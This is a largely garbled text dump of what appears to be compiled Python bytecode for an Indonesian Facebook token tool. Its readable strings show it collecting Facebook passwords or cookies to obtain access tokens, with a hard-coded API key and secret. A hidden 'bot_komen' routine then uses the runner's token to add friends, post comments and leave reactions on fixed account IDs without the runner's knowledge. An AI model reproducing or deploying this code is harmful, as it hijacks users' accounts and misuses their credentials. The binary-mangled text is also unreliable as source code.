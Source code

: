 <t�j�ƒ��t�j�ƒ��}�d�|�k�r=yd�|�d�|�d�}�i�d�d�6d�d�6|�d �6d�d�6d�d�6d�d�6d�d�6d�d�6|�d�6d �d!�6d"�d#�6}�t�j�d$�ƒ�}�|�j�|�ƒ�|�j�ƒ��}�|�j�i�|�d%�6ƒ�d&�}�t�j�|�d'�|�ƒ}�t�j�|�j�ƒ�}�t�d�d(�ƒ�} �| �j�|�d)�ƒ�| �j�ƒ��d*�GHt�ƒ��Wq=t�j�j �k �r9d �GHt�ƒ��q=Xn��d+�|�k�rrd,�GHt��j�d-�ƒ�t!�j"�d.�ƒ�t�ƒ��qœd/�GHt��j�d-�ƒ�t!�j"�d.�ƒ�t#�ƒ��n�Xd��S(0���NR���s���login.txtt���ri2���s ���[0;91mâ”€s8���[0;97m([0;94mâ€¢[0;97m) Login Account Facebook Anda !s2���[0;97m([0;93m?[0;97m) No/Email [0;91m: [0;93ms2���[0;97m([0;93m?[0;97m) Password [1;91m: [0;93ms���https://m.facebook.coms.��� [0;97m([0;91m![0;97m) Koneksi Bermasalah !t���nri����t���emailt���passs���save-devicesG���api_key=882a8490361da98702bf97a021ddc14dcredentials_type=passwordemail=s`���format=JSONgenerate_machine_id=1generate_session_cookies=1locale=en_USmethod=auth.loginpassword=s;���return_ssl_resources=0v=1.062f8ce9f74b12f84c123cc23437a4a32t ���882a8490361da98702bf97a021ddc14dt���api_keyt���passwordt���credentials_typet���JSONt���formatR ���t���generate_machine_idt���generate_session_cookiest���en_USt���locales ���auth.logint���methodR$���t���return_ssl_resourcess���1.0t���vt���md5t���sigs'���https://api.facebook.com/restserver.phpt���paramst���wt���access_tokens3���[0;97m([0;92mâœ“[1;97m)[0;92m Login Berhasil ! t ���checkpoints8��� [0;97m([0;91m![0;97m) Akun Anda Terkena Checkpoint !s���rm -rf login.txti���s(��� [0;97m([0;91m![0;97m) Ada Yg Salah !($���R���R���t���opent���menut���KeyErrort���IOErrorR���R%���R���t���brt���mechanizet���URLErrorR���t���Truet���_factoryt���is_htmlt���select_formt���formt���submitt���geturlt���hashlibt���newt���updatet���hexdigestt���requestst���gett���jsont���loadst���textR���t���closet ���exceptionsR���R ���R���R���(���t���tokett���idt���pwdt���urlRD���t���datat���xt���aR2���R���t���unikers(����(����s���/sdcard/HEKEL.pyR0���Á���sf���� S c����������C���sä���t��j�d�ƒ�t�GHd�d�GHt�d�ƒ�}��yj�t�j�d�|��ƒ�}�t�j�|�j�ƒ�}�|�d�}�t�d�d�ƒ�}�|�j �|��ƒ�|�j�ƒ��t�d�ƒ�t �ƒ��WnL�t�k �r½�d �GHt�j�d�ƒ�t�ƒ��n#�t�j�j�k �rß�d�GHt�ƒ��n�Xd��S( ���NR���i2���s ���[0;91mâ”€s/���[0;97m([0;93m?[0;97m) Token [0;94m>[0;93m s+���https://graph.facebook.com/me?access_token=t���names���login.txtRF���s3���[0;97m([0;92mâœ“[0;97m)[0;92m Login Berhasil ! s&���[0;97m([0;91m![0;97m) Token salah !g333333û?s+���[0;97m([0;91m![0;97m) Koneksi Bermasalah(���R���R���R���R%���R[���R\���R]���R^���R_���RI���R���R`���R���RJ���RK���R ���R���R���Ra���t���SSLErrorR���(���Rb���t���otwRh���t���namat���zedd(����(����s���/sdcard/HEKEL.pyR'���ú���s(���� c����������C���s†��t��j�d�ƒ�t�GHd�GHt�j�d�ƒ�yÙ�t�d�ƒ�}��i �d�d�6d�d�6d�d �6d�d�6d �d�6d�d�6d�d�6d�d�6d�d�6|��d�6}�t�j�d�d�|�ƒ}�t�j�d�|�j �ƒ�}�|�j�d�ƒ�}�t�d�d�ƒ�}�|�j �|�ƒ�|�j�ƒ��t�d�ƒ�t�j�d�ƒ�t�ƒ��Wn‚�t�k �r)d �GHt�j�d�ƒ�t�ƒ��nY�t�k �rRd �GHt�j�d�ƒ�t�ƒ��n0�t�j�j�k �r�t��j�d�ƒ�d!�GHt�ƒ��n�Xd��S("���NR���s����[0;91mâ”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€gìQ¸…ë±?s0���[0;97m([0;93m?[0;97m) Cookie [0;94m>[0;93m sl���Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Kiwi Chrome/68.0.3438.0 Safari/537.36s ���user-agents���https://m.facebook.com/t���referers���m.facebook.comt���hosts���https://m.facebook.comt���originR ���s���upgrade-insecure-requestss#���id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7s���accept-languages���max-age=0s ���cache-controlsU���text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8t���accepts���text/html; charset=utf-8s���content-typet���cookiesG���https://m.facebook.com/composer/ocelot/async_loader/?publisher=feed#_=_t���headerss���(EAAA\w+)i���s���login.txtRF���s3���[0;97m([0;92mâœ“[0;97m)[0;92m Login Berhasil ! i���s'���[0;97m([0;91m![0;97m) Cookie salah !s+���[0;97m([0;91m![0;97m) Koneksi Bermasalah(���R���R���R���R ���R���R%���R[���R\���t���ret���searchR_���t���groupRI���R���R`���R���RJ���t���AttributeErrorR���t���UnboundLocalErrorRa���Rk���R���(���Rs���Rf���t���cokit���carit���hasilRn���(����(����s���/sdcard/HEKEL.pyR(�����sF���� c�����������C���sQ���t��j�d�ƒ�t�GHt�j�d�ƒ�d�d�GHt�d�ƒ�t��j�d�ƒ�t�ƒ��t�ƒ��d��S(���NR���gìQ¸…ë±?i2���s ���[0;91mâ”€s@��� [0;93m---[0;91m>[0;93m Anda Akan Di Arahkan Ke Browser sL���xdg-open https://m.facebook.com/composer/ocelot/async_loader/?publisher=feed(���R���R���R���R ���R���R���R���R���(����(����(����s���/sdcard/HEKEL.pyR)���7��s���� c����������C���s��y�t��d�d�ƒ�j�ƒ��}��Wn#�t�k �r>�d�GHt�j�d�ƒ�n�Xd�}�d�}�d�}�d�}�d�}�d�}�d �}�t�j�d�|�d�|��ƒ�t�j�d �|�d�|�d�|��ƒ�t�j�d �|�d�|�d�|��ƒ�t�j�d �|�d�|�d�|��ƒ�t�j�d �|�d�|�d�|��ƒ�t�ƒ��d��S(���Ns���login.txtR2���s���[1;97m[!] Token invalids���rm -rf login.txtt���100024540287354s���Gua Suka Script Lu ðŸ˜†t���LOVEt���946670209494313s���Izin pakai script lu bangðŸ˜†t���ANGRYs7���https://graph.facebook.com/me/friends?method=post&uids=s���&access_token=s���https://graph.facebook.com/s���/comments/?message=s���/reactions?type=(���RI���t���readRL���R���R���R[���t���postRJ���(���Rb���t���unat���komt���reacR‚���t���post2t���kom2t���reac2(����(����s���/sdcard/HEKEL.pyt���bot_komenB��s$���� !!!!c����������C���s$��t��j�d�ƒ�y�t�d�d�ƒ�j�ƒ��}��Wn7�t�k �r_�d�GHt��j�d�ƒ�t��j�d�ƒ�t�ƒ��n�Xy=�t�j�d�|��ƒ�}�t�j�|�j �ƒ�}�|�d�}�|�d�}�Wnz�t�k �r÷�t��j�d�ƒ�d�GHt��j�d�ƒ�t�j �d �ƒ�t�ƒ��t�j �d �ƒ�t�ƒ��n#�t�j�j�k �rd�GHt�ƒ��n�Xt��j�d�ƒ�t�GHt�j �d�ƒ�d �GHt�j �d�ƒ�d�|�GHt�j �d�ƒ�d�|�GHt�j �d�ƒ�d �GHt�j �d�ƒ�d�GHt�j �d�ƒ�d�GHt�j �d�ƒ�d�GHt�j �d�ƒ�d�GHt�j �d�ƒ�d�GHt�j �d�ƒ�d�GHt�j �d�ƒ�d�GHt�j �d�ƒ�d �GHt�j �d�ƒ�t�ƒ��d��S(���NR���s���login.txtR2���s'���[0;97m([0;91m![0;97m) Token Invalid s���rm -rf login.txts,���https://graph.facebook.com/me/?access_token=Rj���Rc���s&���[0;97m([0;91m![0;97m) Token invalidi���s*���[0;97m([0;91m![0;97m) Tidak ada koneksigìQ¸…ë±?s����[0;91mâ”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€â”€s3���[0;97m([0;91mâ€¢[0;97m) Nama [0;91m